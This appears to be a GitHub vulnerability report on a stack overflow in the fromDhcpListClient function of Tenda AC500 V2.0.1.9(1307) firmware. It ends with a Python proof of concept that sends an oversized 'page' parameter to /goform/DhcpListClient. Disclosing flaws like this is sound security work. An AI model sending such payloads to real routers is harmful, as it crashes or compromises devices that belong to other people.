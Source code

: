## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. The `v4` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v4` can trigger this security vulnerability.

![image-20240320012345206](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012345206.png)

![image-20240320012325044](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012325044.png)

![image-20240320012335792](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012335792.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102128135](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102128135.png)
